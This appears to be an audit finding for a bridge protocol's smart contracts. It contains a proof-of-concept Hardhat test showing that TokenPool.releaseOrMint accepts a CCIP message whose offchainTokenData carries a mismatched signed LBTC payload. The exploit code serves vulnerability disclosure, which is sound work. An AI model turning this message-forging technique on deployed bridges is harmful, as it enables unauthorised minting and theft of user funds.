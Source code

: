 Due to limitation in test suite, I couldn't construct a complete flow of PoC.\
Instead, as the root cause is insufficient validation on `offchainTokenData`, I wrote a PoC to demonstrate that `TokenPool.releaseOrMint` can be invoked with CCIP message with a mismatched payload (same receiver).

### Steps

1. Add the following test case in `test/Bridge.ts`, after **should route message** case.

```javascript
it('Should demonstrate that TokenPool.releaseOrMint does not verify specfic source message and its corresponding payload', async function(){
    /**
    The following test attempts to demonstrate that TokenPool.releaseOrMint can be invoked with a CCIP message containing a payload that is inconsistent with the intended transfer (but same receiver)  
    Specifically, the test constructs a releaseOrMint argument that includes a CCIP message designed to transfer 1e8 LBTC from signer3 to signer2. However, the actual payload within this CCIP message is crafted to transfer only 1,000 LBTC from signer1 to signer2, creating a mismatch between the intended transfer and the data carried within the CCIP message.
    */
    
    // beforeEach set this adapter to incorrect address (aCLAdapter)
    await bridgeDestination.changeAdapter(
        CHAIN_ID,
        await bCLAdapter.getAddress()
    );

    // retrieve payload and its signature  
    // a payload to transfer 1_000 of LBTC to signer2 from signer1
    let data = await signDepositBridgePayload(
        [signer1],
        [true],
        CHAIN_ID,
        await bridgeSource.getAddress(),
        CHAIN_ID,
        await bridgeDestination.getAddress(),
        signer2.address,
        1_000n
    );

    // Simulating a CCIP message to transfer 1e8 of LBTC to signer2 from signer3
    // Note that we put above payload in offchainTokenData
    const coder = new AbiCoder();
    const args = {
        originalSender: ethers.zeroPadValue(signer3.address, 32),
        remoteChainSelector: aChainSelector,
        receiver: signer2.address,
        amount: 1_0000_0000n,
        localToken: await lbtcDestination.getAddress(),
        sourcePoolAddress: ethers.zeroPadValue(await aTokenPool.getAddress(), 32),
        sourcePoolData: data.payload,
        offchainTokenData: coder.encode(["bytes", "bytes"], [data.payload, data.proof])
    }

    // Asserts that initial balance of signer2 is zero
    expect(await lbtcDestination.balanceOf(signer2.address)).to.equal(0);

    // MockCCIPRouter already allows arbitrary call on tokenPool
    await bTokenPool.connect(signer1).releaseOrMint(args);
    
    // Asserts that initial balance of signer2 is 1000n (equal to that of crafted payload)
    expect(await lbtcDestination.balanceOf(signer2.address)).to.equal(1000n);
});
```